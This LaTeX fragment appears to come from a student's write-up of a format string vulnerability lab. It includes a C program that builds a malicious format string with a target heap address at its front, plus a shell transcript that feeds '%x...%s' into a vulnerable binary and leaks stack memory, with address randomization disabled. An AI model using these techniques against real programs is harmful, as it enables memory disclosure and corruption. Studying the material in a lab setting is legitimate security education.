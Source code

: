 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
We used, instead, a program \texttt{write\_file.c} so that it can prepare an input for us that will contain the address at the beginning.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	caption=Example of overwriting memory with a specified value,
	label=printf:writefilec,
	breaklines=true,
  float=tb
}
\begin{lstlisting}
#include <sys/stat.h>
#include <fcntl.h>
int main()
{
  char buf[1000];
  int fp, size;
  unsigned int *address;
  /* Putting any number you like at the beginning of the format string */
  address = (unsigned int *) buf;
  
  /* Put address of secret[1] in first four bytes */
  *address = 0x0804b01c;
  
  /* Getting the rest of the format string */
  /* Move by 4 bytes, because we already took it */
  scanf("%s", buf+4);
  size = strlen(buf+4) + 4;
  printf("The string length is %d\n", size);
  
  /* Writing buf to "mystring" */
  fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
  if (fp != -1) {
    write(fp, buf, size);
    close(fp);
  } else {
    printf("Open failed!\n");
  }
}
\end{lstlisting}

In order to execute this task we had to disable virtual address space randomization, so that at every consecutive execution of our program the memory addresses of the \texttt{secret} would stay exactly the same. We needed the address to stay to same, in order to run the vulnerable program once, take note of the address, run our program \texttt{write\_string} that creates a file to be used as input, and run vulnerable program again and be sure that the address space is exactly as during previous run.
After turning off address randomization, we had to add an extra memory allocation to the vulnerable program, because the address we were given contained \texttt{0x0C} character which is 'form feed' symbol in ASCII, and \texttt{printf} would not treat entire address as a single value.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of printing memory using a file as standard input,
	label=printf:writefile1,
	breaklines=true,
  float=tb
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./write_string
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s
The string length is 36
seed@seed-desktop:~/cwk2$ ./vul < mystring
The variable secret’s address is 0xbffff4e8 (on stack)
The variable secret’s value is 0x 804b018 (on heap)
secret[0]’s address is 0x 804b018 (on heap)
secret[1]’s address is 0x 804b01c (on heap)
Please enter a string
bffff4ec.bffff560.bffff554.bffff5f4.0.0.bffff5a0.b7fff670.80482bf.804b018.U
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}
\end{document}
